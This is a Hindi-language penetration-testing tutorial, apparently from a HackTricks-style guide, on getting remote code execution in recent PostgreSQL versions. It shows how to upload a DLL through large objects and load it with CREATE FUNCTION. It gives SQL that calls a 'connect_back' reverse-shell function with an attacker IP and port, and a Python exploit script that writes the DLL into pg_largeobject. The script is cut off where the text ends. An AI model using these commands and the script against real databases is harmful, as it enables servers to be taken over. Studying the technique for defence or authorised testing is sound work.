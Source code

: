 ### नवीनतम प्रोस्टग्रेस संस्करण में आरसीई

**पोस्टग्रेस** के **नवीनतम संस्करणों** में, प्रतिबंध लगाए गए हैं जहां `सुपरयूजर` को विशेष निर्देशित निर्देशिकाओं से बाहर से साझा पुस्तकालय फ़ाइलें **लोड** करने से **रोका** गया है, जैसे कि विंडोज पर `C:\Program Files\PostgreSQL\11\lib` या \*निक्स सिस्टम पर `/var/lib/postgresql/11/lib`। ये निर्देशिकाएँ या तो नेटवर्क सेवा या पोस्टग्रेस खातों द्वारा लिखने के प्रक्रियाओं से **सुरक्षित** हैं।

इन प्रतिबंधों के बावजूद, एक प्रमाणित डेटाबेस `सुपरयूजर` को "बड़े ऑब्जेक्ट्स" का उपयोग करके फ़ाइल सिस्टम में **बाइनर फ़ाइलें लिखना** संभव है। यह क्षमता `C:\Program Files\PostgreSQL\11\data` निर्देशिका के अंदर लिखने के लिए फैलाई जाती है, जो तालिकाएँ अपडेट या बनाने जैसे डेटाबेस प्रक्रियाओं के लिए आवश्यक है।

`CREATE FUNCTION` कमांड से एक महत्वपूर्ण सुरक्षा दोष उत्पन्न होता है, जो डेटा निर्देशिका में भ्रमण की अनुमति देता है। इस परिणामस्वरूप, एक प्रमाणित हमलावर इस भ्रमण का शोध लगाकर डेटा निर्देशिका में एक साझा पुस्तकालय फ़ाइल लिख सकता है और फिर इसे **लोड** कर सकता है। यह उत्पादन परिचालन या तालिकाएँ अपडेट करने जैसे डेटाबेस प्रक्रियाओं पर मौजूदा कोड को निष्पादित करने के लिए हमलावर को सक्षम करता है।

#### हमले की प्रवाह

सबसे पहले आपको **डीएल अपलोड करने के लिए बड़े ऑब्जेक्ट्स का उपयोग करना होगा**। आप यहां देख सकते हैं कि ऐसा कैसे किया जाता है:

{% content-ref url="big-binary-files-upload-postgresql.md" %}
[big-binary-files-upload-postgresql.md](big-binary-files-upload-postgresql.md)
{% endcontent-ref %}

एक बार जब आपने एक्सटेंशन को अपलोड कर लिया है (इस उदाहरण के लिए poc.dll नाम से) डेटा निर्देशिका में, तो आप इसे लोड कर सकते हैं:
```c
create function connect_back(text, integer) returns void as '../data/poc', 'connect_back' language C strict;
select connect_back('192.168.100.54', 1234);
```
_ध्यान दें कि आपको `.dll` एक्सटेंशन जोड़ने की आवश्यकता नहीं है क्योंकि निर्माण कार्यक्षमता इसे जोड़ देगी।_

अधिक जानकारी के लिए **यहाँ से** [**मूल प्रकाशन पढ़ें**](https://srcincite.io/blog/2020/06/26/sql-injection-double-uppercut-how-to-achieve-remote-code-execution-against-postgresql.html)**।**\
उस प्रकाशन में **यह था** [**कोड जिसका उपयोग पोस्टग्रेस एक्सटेंशन उत्पन्न करने के लिए किया गया था**](https://github.com/sourceincite/tools/blob/master/pgpwn.c) (_पोस्टग्रेस एक्सटेंशन को कैसे कंपाइल करें इसे सीखने के लिए किसी भी पिछले संस्करणों में से कोई भी पढ़ें_।)\
उसी पृष्ठ पर इस **तकनीक को स्वचालित करने के लिए** यह एक्सप्लॉइट दिया गया था:
```python
#!/usr/bin/env python3
import sys

if len(sys.argv) != 4:
print("(+) usage %s <connectback> <port> <dll/so>" % sys.argv[0])
print("(+) eg: %s 192.168.100.54 1234 si-x64-12.dll" % sys.argv[0])
sys.exit(1)

host = sys.argv[1]
port = int(sys.argv[2])
lib = sys.argv[3]
with open(lib, "rb") as dll:
d = dll.read()
sql = "select lo_import('C:/Windows/win.ini', 1337);"
for i in range(0, len(d)//2048):
start = i * 2048
end   = (i+1) * 2048
if i == 0:
sql += "update pg_largeobject set pageno=%d, data=decode('%s', 'hex') where loid=1337;" % (i, d[start:end].hex())
else:
sql += "insert into pg_largeobject(loid, pageno, data) values (1337, %d, decode('%s', 'hex'));" % (i, d[start:end].hex())
if (len(d) % 2048) != 0:
```